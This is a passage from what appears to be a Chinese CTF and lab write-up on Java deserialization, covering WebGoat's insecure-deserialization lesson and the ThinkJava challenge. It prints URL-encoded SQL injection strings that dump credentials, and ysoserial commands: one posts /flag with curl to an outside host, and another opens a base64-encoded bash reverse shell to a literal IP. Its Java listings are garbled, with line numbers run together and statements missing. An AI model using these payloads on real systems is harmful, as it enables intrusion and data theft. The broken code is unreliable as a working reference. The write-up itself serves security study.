1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 package org.owasp.webgoat.deserialization;import java.io.ByteArrayInputStream;import java.io.ByteArrayOutputStream;import java.io.DataOutputStream;import java.io.IOException;import java.io.ObjectInputStream;import java.io.ObjectOutputStream;import java.io.Serializable;import java.util.Base64;public class SerializationHelper {private static final char [] hexArray = "0123456789ABCDEF" .toCharArray();public static Object fromString (String s) throws IOException,byte [] data = Base64.getDecoder().decode(s);ObjectInputStream ois = new ObjectInputStream (new ByteArrayInputStream (data));Object o = ois.readObject();return o;public static String toString (Serializable o) throws IOException {ByteArrayOutputStream baos = new ByteArrayOutputStream ();ObjectOutputStream oos = new ObjectOutputStream (baos);return Base64.getEncoder().encodeToString(baos.toByteArray());public static String show () throws IOException {ByteArrayOutputStream baos = new ByteArrayOutputStream ();DataOutputStream dos = new DataOutputStream (baos);8699352886133051976L );byte [] longBytes = baos.toByteArray();return bytesToHex(longBytes);public static String bytesToHex (byte [] bytes) {char [] hexChars = new char [bytes.length * 2 ];for (int j = 0 ; j < bytes.length; j++) {int v = bytes[j] & 0xFF ;2 ] = hexArray[v >>> 4 ];2 + 1 ] = hexArray[v & 0x0F ];return new String (hexChars);
接下来就是构造反序列化的payload，我们在webgoat源码中VulnerableTaskHolder所在的目录下新建一个java类，其中的内容写我们需要的恶意代码，如下图所示
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 package org.dummy.insecure.framework;import java.io.ByteArrayOutputStream;import java.io.ObjectOutputStream;import java.util.Base64;public class SerialMain {static public void main (String[] args) {try {VulnerableTaskHolder go = new VulnerableTaskHolder ("ping" , "ping -n 6 127.0.0.1" );ByteArrayOutputStream bos = new ByteArrayOutputStream ();ObjectOutputStream oos = new ObjectOutputStream (bos);byte [] exploit = bos.toByteArray();String exp = Base64.getEncoder().encodeToString(exploit);catch (Exception e){
代码内容如上图，执行SerialMain后生成token，复制到token处提交。 从console可以看到执行了ping命令，且task任务的响应也会变慢。
如上图成功通过，然后我在解决上述问题的时候突然看到这个webgoat的版本适配的是jdk15，然后我就下载了15的来重新运行webgoat，随后又尝试弹calc，tmd竟然成了！！！—这感觉就是纯纯jdk版本适配问题啊。。。。。。。。。。。还有一点，我在使用bp的collaborator时，一直连接不上去，翻了多个文章发现是校园网的问题。。。。。无语住了
8.3 SerializationDumper 数据分析
项目地址：https://github.com/NickstaDB/SerializationDumper
这个可以用来进行Java反序列化payload之类的数据分析
1 java -jar SerializationDumper-v1.13 .jar -r 1. bin > 1. txt
如图所示，可以较为清楚的展示Java反序列化数据
8.4 [网鼎杯 2020 朱雀组]ThinkJava
访问首页说没有身份权限，那估计需要先root一下，这里先看题目给的附件
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 package cn.abc.core.controller;import cn.abc.common.bean.ResponseCode;import cn.abc.common.bean.ResponseResult;import cn.abc.common.security.annotation.Access;import cn.abc.core.sqldict.SqlDict;import cn.abc.core.sqldict.Table;import io.swagger.annotations.ApiOperation;import java.io.IOException;import java.util.List;import org.springframework.web.bind.annotation.CrossOrigin;import org.springframework.web.bind.annotation.PostMapping;import org.springframework.web.bind.annotation.RequestMapping;import org.springframework.web.bind.annotation.RestController;@CrossOrigin @RestController @RequestMapping({"/common/test"}) public class Test {public Test () {@PostMapping({"/sqlDict"}) @Access @ApiOperation("为了开发方便对应数据库字典查询") public ResponseResult sqlDict (String dbName) throws IOException {"root" , "abc@12345" );return ResponseResult.e(ResponseCode.OK, tables);
这里给了一个/common/test接口，其中会访问sqlDict接口，接着传入了数据库的账号和密码，我们转到sqlDict看看
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 package cn.abc.core.sqldict;import java.sql.Connection;import java.sql.DatabaseMetaData;import java.sql.DriverManager;import java.sql.ResultSet;import java.sql.SQLException;import java.sql.Statement;import java.util.ArrayList;import java.util.List;public class SqlDict {public SqlDict () {public static Connection getConnection (String dbName, String user, String pass) {Connection conn = null ;try {"com.mysql.jdbc.Driver" );if (dbName != null && !dbName.equals("" )) {"jdbc:mysql://mysqldbserver:3306/" + dbName;else {"jdbc:mysql://mysqldbserver:3306/myapp" ;if (user == null || dbName.equals("" )) {"root" ;if (pass == null || dbName.equals("" )) {"abc@12345" ;catch (ClassNotFoundException var5) {catch (SQLException var6) {return conn;public static List<Table> getTableData (String dbName, String user, String pass) {new ArrayList ();Connection conn = getConnection(dbName, user, pass);String TableName = "" ;try {Statement stmt = conn.createStatement();DatabaseMetaData metaData = conn.getMetaData();ResultSet tableNames = metaData.getTables((String)null , (String)null , (String)null , new String []{"TABLE" });while (tableNames.next()) {3 );Table table = new Table ();String sql = "Select TABLE_COMMENT from INFORMATION_SCHEMA.TABLES Where table_schema = '" + dbName + "' and table_name='" + TableName + "';" ;ResultSet rs = stmt.executeQuery(sql);while (rs.next()) {"TABLE_COMMENT" ));ResultSet data = metaData.getColumns(conn.getCatalog(), (String)null , TableName, "" );ResultSet rs2 = metaData.getPrimaryKeys(conn.getCatalog(), (String)null , TableName);for (PK = "" ; rs2.next(); PK = rs2.getString(4 )) {while (data.next()) {Row row = new Row (data.getString("COLUMN_NAME" ), data.getString("TYPE_NAME" ), data.getString("COLUMN_DEF" ), data.getString("NULLABLE" ).equals("1" ) ? "YES" : "NO" , data.getString("IS_AUTOINCREMENT" ), data.getString("REMARKS" ), data.getString("COLUMN_NAME" ).equals(PK) ? "true" : null , data.getString("COLUMN_SIZE" ));catch (SQLException var16) {return Tables;
这里看到getTableData用来查询数据库数据，其中sql语句没做过滤，存在sql注入，但我们在test中会看到如下图，导入的包中含有swagger
我们百度查一下相关资料：
1 Swagger是一个规范和完整的框架，用于生成、描述、调用和可视化 RESTful 风格的 Web 服务，JAVA在金融机构开发语言的地位一直居高不下，而作为JAVA届服务端的大一统框架Spring，便将Swagger规范纳入自身的标准，建立了Spring-swagger项目，所以在实际测试环境中，基于spring框架的swagger-ui接口展示及调试文档页面最为常见。
这里我们搜的时候会发现他会提示有个swagger-ui漏洞，那我们继续了解一下会发现这玩意儿存在未授权访问漏洞
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 /api
这里也是看了wp要访问swagger-ui.html页面
查看一番发现其有三个接口，对应着题目附件中源码中的java文件，我们可以现在dbName处进行sql注入拿到账号密码
不过这里涉及到了jdbc的sql注入，这里先跟着浅学一下，一会儿深入，我们定位到下图
这里看师傅们说这里由于进行了dbName的拼接，那我们在进行sql注入的时候要满足jdbc协议的连接不能出错，因此这里会用到类似url的锚点（这里做完在了解什么是锚点）
jdbc sql 注入
关于#的使用

在url中#表示锚点，表示网页中的一个位置，比如http:xxx/index.html#aaa，浏览器读取这个url，会将aaa移到可视位置。在第一个#，都会被视为位置标识符，不会被发送到服务端
而jdbc类似于url解析，所以会忽略#后面的字符
而#又是sql注入中的注释符，如果我们需要在url中传#，那么需要进行url编码为%23
查看数据库，这里是get传参，这里测试了几波发现需要将单引号，#和空格进行url编码
1 ?dbName=myapp%23%27%20union%20select%20group_concat(SCHEMA_NAME)from(information_schema.schemata)%23
爆表名dbName=myapp%23%27%20union%20select%20group_concat(table_name)from(information_schema.tables)where(table_schema%3D%27myapp%27)%23
爆字段名：
1 dbName=myapp%23%27%20union%20select%20group_concat(column_name)from(information_schema.columns)where((table_schema%3D%27myapp%27)and(table_name%3D%27user%27))%23
爆用户名密码：
1 dbName=myapp%23%27%20union%20select%20group_concat(name,0x3a,pwd)from%20user%23
这样的话就拿到了用户账号和密码，使用账号密码登录
如上图，登陆成功
往下翻可以看到这里的body部分存在r00ab开头的，这很明显就是Java反序列化经过base64编码后的结果，那我们验证一下这里是否存在Java反序列化漏洞
如上图，我们使用的是bp自带的插件，如上图，我们发现确实存在反序列化漏洞
接下来使用ysoserial打
ysoserial
1 2 3 4 java -jar ysoserial-all.jar ROME "curl http://ip:5555 -d @/flag" > 1. bin124.220 .233 .26 /5555 0 >&1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuMjIwLjIzMy4yNi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}" > 1. bin
上述命令打完记得base64编码
本来我们分析道Authorization会将用户的token信息进行Java序列化并编码，那我们就可以构造而已的Java序列化数据传给Authorization，这样在解析的时候就会反序列化我们的恶意数据，进而拿到shell等。
这里问了一下GPT上述payload的含义：
1 2 3 4 5 6 7 8 9 这段命令使用`curl`工具进行HTTP请求，并包含了一些参数和选项。让我们逐步解释这个命令：
接着尝试一下反弹shell，命令如下：
1 2 bash -i >& /dev/tcp/ip/port 0 >&1 --进行base64编码"bash -c {echo,编码内容}|{base64,-d}|{bash,-i}" > 1. bin --进行base64编码
接着发送至current接口即可，如下图成功拿到shell
这里我们用ysoserial对用户登录成功的数据分析一下
1 Bearer rO0ABXNyABhjbi5hYmMuY29yZS5tb2RlbC5Vc2VyVm92RkMxewT0OgIAAkwAAmlkdAAQTGphdmEvbGFuZy9Mb25nO0wABG5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt4cHNyAA5qYXZhLmxhbmcuTG9uZzuL5JDMjyPfAgABSgAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAAAAAAAAXQABWFkbWlu
不过在此之前需要将上述转为16进制，这里依旧用个python脚本
1 2 3 4 import base64
我们进入文件会发现如下图，name中含有admin，说明这里代码通过反序列化Java数据来判断其中name的值是否为admin
0x09 参考文章
Java反序列化：
Java 反序列化漏洞入门
Java反序列化从入门到放弃
浅显易懂的JAVA反序列化入门
Java反射：
JAVA反射学习
初探java安全之反射(2)
Java反射
webgoat：
0基础学渗透-WebGoat靶场（五）
WebGoat8.0 Insecure Deserialization
webgoat-Insecure Deserialization不安全的序列化
WebGoat-8.2.2靶场之不安全的反序列化漏洞
Swagger未授权访问漏洞
[网鼎杯 2020 朱雀组]Think Java -1
[网鼎杯 2020 朱雀组]Think Java -2
CTFHUB-think_java(2020-网鼎杯-朱雀组-Web-think_java)